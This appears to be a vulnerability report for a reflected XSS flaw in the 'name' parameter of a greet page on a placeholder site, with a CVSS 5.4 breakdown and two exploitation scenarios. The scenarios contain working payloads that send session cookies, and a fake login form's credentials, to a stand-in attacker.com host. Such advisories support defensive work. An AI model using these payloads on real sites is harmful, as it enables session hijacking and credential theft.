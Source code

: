 This vulnerability allows attackers to inject malicious JavaScript code via the `name` parameter. When a victim visits a crafted URL like `https://acme-app.com/greet?name=<script>alert('XSS');</script>`, the injected script executes in their browser, potentially leading to session hijacking, credential theft, or redirection to malicious websites.

# CVSS
**Score**: 5.4 \
**Vector**: CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:L/A:N \
**Severity**: Medium

The Medium severity rating (5.4) is based on the following factors:

- **Network Attack Vector (AV:N)**: The vulnerability is exploitable remotely over the internet, allowing the widest possible attack surface.

- **Low Attack Complexity (AC:L)**: Exploitation is straightforward and doesn't require any special conditions or preparation. Crafting a malicious URL with JavaScript in the name parameter is trivial.

- **No Privileges Required (PR:N)**: An attacker doesn't need any level of authentication or authorization to exploit the vulnerability.

- **User Interaction Required (UI:R)**: Exploitation requires a victim to click on a malicious link or otherwise visit a specially crafted URL, limiting the attack's reach.

- **Unchanged Scope (S:U)**: The vulnerability only affects resources managed by the same security authority. The impact is confined to the user's browser session.

- **Low Confidentiality Impact (C:L)**: Successful exploitation could expose sensitive browser data like cookies and session identifiers.

- **Low Integrity Impact (I:L)**: The attacker can modify data within the user's browser context, potentially altering visible content or executing unwanted actions.

- **No Availability Impact (A:N)**: The vulnerability doesn't affect the availability of the application itself.

The primary risk is unauthorized access to user sessions through cookie theft, with potential for phishing attacks through page content manipulation.

# Exploitation Scenarios
**Scenario 1: Session Hijacking**
An attacker crafts a malicious URL like `https://acme-app.com/greet?name=<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>` and distributes it through email, social media, or compromised websites. When a victim with an active session clicks the link, the injected JavaScript executes in their browser and sends their session cookie to the attacker's server. The attacker can then use this cookie to impersonate the victim and gain unauthorized access to their account.

**Scenario 2: Credential Harvesting**
An attacker creates a URL with a payload that injects a fake login form into the page: `https://acme-app.com/greet?name=<div style="position:absolute;top:0;left:0;width:100%;height:100%;background:white"><h2>Session Expired</h2><form onsubmit="fetch('https://attacker.com/steal',{method:'POST',body:JSON.stringify({u:this.username.value,p:this.password.value})});return false"><input name="username" placeholder="Username"><input name="password" type="password" placeholder="Password"><button>Login</button></form></div>`. When a user enters their credentials, they're sent to the attacker's server instead of the legitimate application.
